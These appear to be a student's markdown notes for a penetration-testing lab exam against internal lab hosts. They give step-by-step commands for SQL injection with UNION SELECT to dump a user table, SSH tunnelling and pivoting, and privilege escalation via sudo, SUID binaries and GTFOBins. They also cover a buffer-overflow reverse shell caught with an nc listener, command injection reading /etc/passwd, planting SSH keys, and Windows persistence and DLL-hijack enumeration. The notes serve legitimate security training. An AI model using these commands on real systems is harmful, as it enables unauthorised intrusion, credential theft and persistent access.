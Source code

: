     - seince dealing with numner `pick.php?product=6 or 1=1` but try other numbers in product to see what works. It works for 7 tho so `pick.php?product=7 or 1=1` so it's vulnerable to SQL injection
    - now you need to find the columns needed for union select
        - `product=7 UNION 1,2,3` --> this works, if you do 3,4 or 1,2 it throughs an error sayin gthings don't exsist, so need the right number of columns, which is 3. This tells us how it is formatted vs how it is viewed to you 
        - `product=7 UNION SELECT table_schema, column_name, table_name, FROM information_schema.columns`
        - now that you know all the data bases, we care about the siteuser database so `product=7 UNION SELECT user_id,name,username FROM siteuser.users` (columns from database_name.table_name). This should give use a few more usernames and databases 
            - most importantly is lee roth and Aaron

## NOW ON SENSORROUND
- now built new tunnel: `ssh user2@10.50.25.76 1111:192.168.28.172:22`
- get onto Aaron: `ssh Aaron@localhost -p 1111 -D 9050`
- now get bash shell `bash`
- see who Aaron can talk to: `cat /etc/hosts`
- see ip address ports `for i in {1..255};do (ping -c 1 192.168.28.$i | grep "bytes from"&);done`
- see home: `cd /home ls -la`
- ***SEE IF YOU CAN ESCALATE***: `sudo -l` --> gtfobins --> find --> sudo --> read what it does and copy and paste into it to see if you can get root --> type bash again to get a a bash shell
- ***NOW YOURE ROOT!*** (this is as hard as it should be on the test)
- if you don't hae sudo: `find / -type f -perm /4000 -ls 2>/dev/null`, copy and paste into a word document and try them all in GTFO bins and see what you can do. 
- now go into root --> `cd root`, `ls -la `--> `chmod +x` any executable you find of interest, try and take any files or cool things you see and cat them
- ***REMEMBER RSYSLOG*** --> key files, what it does, etc etc 

- proxychains nc 192.168.28.179 9999
- run windows buffer overflow which runns reverse shell
- nc -lvnp 4444 --> get's you on box

### WINDOWS MACHINE
- ssh Aaron@loclahost -p 1111 -L 2222:<#ip>:3389 (windows rdp connection)
- now on windows box (with gui): check out file directory, view --> click hidden items and file name extension 
- now go to this pc --> user files --> dfault folders, etc, users, (***light folder means hidden***) now check lroth, documents, etc, just general enumeration
- go to run and runonce in regedits for persistence --> HKCU and HKLM --> this could show some additional commands of interest to us 
- go to services --> properties --> description --> look for blank things --> right click --> etc etc 
- if you are required to replace an exevutable, it will be shown to you and etc etc 
    - if not, you will have to do DLL hijack and use same steps as in challenges
- scheduled tasks
    - can get a little wonky. can only see them for your current user 

### THINGS THAT WEREN'T ON DRY RUN
 - robots.txt for http-enum. be sure to go to all those places even if they say disallow. Just check it all out
 - cmdinjection
    - http://10.50.28.52/cmdinjection/
    - ;whoami --> www-data 
    - ;ls -la /var/www/html 
- ssh key 
    - `;whoami`
    - find user, then find their home directory --> `;cat /etc/passwd` -> www-data:x:33:33:www-data:/var/www:/bin/bash
    - now you need to know if that home directory contais ssh `;ls -la /var/www`
    - make a .ssh directory  `mkdir /var/www/.ssh` 
    - make an ssh key (rsa_id.pub etc etc) --> in your personal home directory `ssh-keygen -t rsa` then click enter a ton of times till back to normal comand prompt
    - want to upload teh ***PUBLIC** key not your private key.